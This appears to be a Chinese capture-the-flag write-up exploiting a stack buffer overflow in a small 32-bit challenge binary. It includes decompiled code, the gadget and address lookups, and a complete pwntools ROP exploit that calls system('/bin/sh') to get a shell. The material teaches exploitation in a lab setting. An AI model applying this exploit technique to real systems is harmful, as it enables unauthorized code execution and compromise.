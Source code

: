 ## 0x01 静态分析

### 1.1 F5反编译

```
int sub_804851D()
{
  return system((const char *)0x6F616D69);
}

int __cdecl main()
{
  int v1; // [esp+18h] [ebp-28h]

  puts("pwn test");
  fflush(stdout);
  __isoc99_scanf("%s", &v1);
  printf("%s", &v1);
  return 1;
}
```

### 1.2 漏洞原理

​	scanf未定义变量大小，存在缓冲区溢出，程序内部有system函数，不需要libc来获取system函数真实地址，可以调用scanf("%s",bss地址)将'/bin/sh'字符串放到bss段里，构造执行链：

```
scanf_addr+ppr+%s地址+bss段基址+system_addr+exit_addr+bss段基址
```

## 0x02 编写EXP

### 2.1 查找函数地址

- 查找ppr地址

```
ROPgadget --binary pwn1 --only "pop|pop|ret"
```
ppr_addr = 0x080485ee

- 查找bss地址

```
readelf -S pwn1
```

bss_addr = 0x0804a040

- 查找函数地址

```
objdump -d pwn1
```
system_addr = 0x080483e0

scanf_addr = 0x08048410

format_addr = 0x08048629

### 2.2 EXP

```
from pwn import *

p = process('./pwn1')

ppr_addr = p32(0x080485ee)
bss_addr = p32(0x0804a040)
system_addr = p32(0x080483e0)
scanf_addr = p32(0x08048410)
format_addr = p32(0x08048629)

payload = b'\x90'*52 + scanf_addr + ppr_addr + format_addr + bss_addr + system_addr + b'\x90'*4 + bss_addr

p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```
